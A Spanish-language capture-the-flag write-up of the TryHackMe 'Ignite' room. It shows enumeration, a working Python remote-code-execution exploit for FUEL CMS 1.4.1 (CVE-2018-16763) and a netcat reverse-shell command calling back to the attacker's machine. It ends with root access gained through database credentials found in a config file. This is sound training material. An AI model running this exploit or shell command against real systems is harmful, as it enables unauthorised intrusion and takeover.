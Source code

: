 ```yaml
---
layout: post
title: Ignite TryHackMe
tags: [cms,exploitdb]
description: "Ignite TryHackMe"
---
```


[logo](https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png)

- [Enumeración](#enumeraci-n)
- [Nmap](#nmap)
- [Explotación](#explotaci-n)
  * [Servicio web (puerto 80)](#servicio-web--puerto-80-)
  * [WhatWeb](#whatweb)
- [Escalada de privilegios](#escalada-de-privilegios)

## Enumeración

## Nmap

```
# Nmap 7.91 scan initiated Sun Sep  5 00:35:00 2021 as: nmap -p80 -sC -sV -Pn -oN targeted 10.10.125.27
Nmap scan report for 10.10.125.27
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```


## Explotación

### Servicio web (puerto 80)

Al intentar realizar fuzzing, el servicio web tarda en responder.  
lo mejor es investigando sobre la tecnologia que utiliza o si es un `CMS` con una versión vulnerable  

![web](/assets/ignite/imgs/web.png)

### WhatWeb

```
❯ whatweb http://10.10.121.135 | tr "," "\n"
http://10.10.121.135 [200 OK] Apache[2.4.18]
 Country[RESERVED][ZZ]
 HTML5
 HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)]
 IP[10.10.121.135]
 JQuery[1.7.1]
 Script
 Title[Welcome to FUEL CMS]
```

Buscando un exploit para el gestor de contenidos `Fuel de version 4.1`.

```
❯ searchsploit fuel 4.1
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                  | php/webapps/49487.rb
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
```

FUEL CMS 1.4.1 permite la evaluación de código PHP a través del parámetro de pages/select/ filtrar el parámetro de vista previa/datos. Esto puede llevar a la ejecución remota de código previa a la autenticación.  
[CVE-2018-16763](https://www.cvedetails.com/cve/CVE-2018-16763/)

**Codigo malicioso:**

```
import requests
import urllib

url = "http://10.10.121.135"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = raw_input('cmd:')
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    proxy = {"http":"http://127.0.0.1:8080"}
    r = requests.get(burp0_url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print r.text[0:dup]
```

Comprobamos la ejecución remota de comandos

```
❯ python rce.py                                                                               
cmd:ping -c 2 10.9.102.237                                                                    

──────────────────────────────────────────────────────────────────────────────────────────────
❯ sudo tcpdump -i tun0 icmp                                                                   
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode                    
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes                    
23:37:55.977458 IP 10.10.121.135 > 10.9.102.237: ICMP echo request, id 1702, seq 1, length 64
23:37:55.977520 IP 10.9.102.237 > 10.10.121.135: ICMP echo reply, id 1702, seq 1, length 64
23:37:57.037877 IP 10.10.121.135 > 10.9.102.237: ICMP echo request, id 1702, seq 2, length 64
23:37:57.037918 IP 10.9.102.237 > 10.10.121.135: ICMP echo reply, id 1702, seq 2, length 64

```

De la misma forma nos spawneamos una shell inversa

```
cmd:bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.102.237 4444 >/tmp/f"

────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.121.135] 60052
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Escalada de privilegios

Buscando archivos y directorios de configuración propios del gestor `Fuel`.

```
www-data@ubuntu:/var/www/html/fuel$ ls -lRa | grep "config" --color
drwxrwxrwx  2 root root 4096 Jul 26  2019 config
./application/config:
-rwxrwxrwx  1 root root   452 Jul 26  2019 MY_config.php
-rwxrwxrwx  1 root root 18445 Jul 26  2019 config.php
drwxrwxrwx  2 root root 4096 Jul 26  2019 config
drwxrwxrwx 2 root root 4096 Jul 26  2019 config
./modules/fuel/assets/docs/fuel_modules_example/config:
-rwxrwxrwx  1 root root   2957 Jul 26  2019 build-config.js
-rwxrwxrwx  1 root root   1149 Jul 26  2019 config.default.js
-rwxrwxrwx  1 root root   1321 Jul 26  2019 config.js
./modules/fuel/config:
drwxrwxrwx 2 root root 4096 Jul 26  2019 config
./modules/fuel/libraries/parser/dwoo/Dwoo/Adapters/CodeIgniter/config:
-rwxrwxrwx 1 root root  7099 Jul 26  2019 configs-settings.php
-rwxrwxrwx 1 root root  227 Jul 26  2019 configuration.php
drwxrwxrwx  2 root root 4096 Jul 26  2019 config
./modules/fuel/views/_generate/advanced/config:
```

Ingresamos a la ruta `./application/config` y visualizamos un archivo `database.php` que parece ser interesante.
Obtenemos unas credenciales para el usuario root.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php
[...]
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
```

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su
Password:
root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```

- [Fuel_CMS](https://github.com/daylightstudio/FUEL-CMS)
